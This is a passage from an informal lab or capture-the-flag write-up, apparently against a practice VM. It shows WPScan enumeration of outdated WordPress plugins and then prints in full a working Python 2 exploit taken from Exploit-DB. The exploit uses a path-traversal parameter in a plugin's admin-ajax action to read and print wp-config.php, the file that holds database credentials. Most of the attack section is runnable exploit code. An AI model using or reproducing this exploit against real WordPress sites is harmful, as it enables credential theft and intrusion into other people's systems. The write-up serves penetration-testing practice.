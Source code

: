 ```
 | Readme: https://192.168.122.136:12380/blogblog/wp-content/plugins/shortcode-ui/readme.txt
 | [!] The version is out of date, the latest version is 0.7.4
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://192.168.122.136:12380/blogblog/wp-content/plugins/shortcode-ui/, status: 200
 |
 | Version: 0.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://192.168.122.136:12380/blogblog/wp-content/plugins/shortcode-ui/readme.txt

[+] two-factor
 | Location: https://192.168.122.136:12380/blogblog/wp-content/plugins/two-factor/
 | Latest Version: 0.5.1
 | Last Updated: 2020-02-12T19:41:00.000Z
 | Readme: https://192.168.122.136:12380/blogblog/wp-content/plugins/two-factor/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://192.168.122.136:12380/blogblog/wp-content/plugins/two-factor/, status: 200
 |
 | The version could not be determined.
 ---------------------------------------------------------------------cutted--------------------------------------------------------------------
```


And here is our savior:
[I do love exploit db so much](https://www.exploit-db.com/exploits/39646)

So let's just run our exploit, after modifying some shit that didnt worked well it worked and i can access the wp-content file
Here is the code i runned:

```python
# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)
#### USE PYTHON2 TO USE THIS SCRIPT

import random
import urllib2
import re
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
url = "https://192.168.122.136:12380/blogblog" # insert url to wordpress

randomID = long(random.random() * 100000000000000000)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
  numbers = re.findall(r"\d+",line)
  if len(numbers) != 0:
    id = numbers[-1]
    id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
  if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
    urls=re.findall('"(https?://.*?)"', line)
    print urllib2.urlopen(urls[0]).read()
```
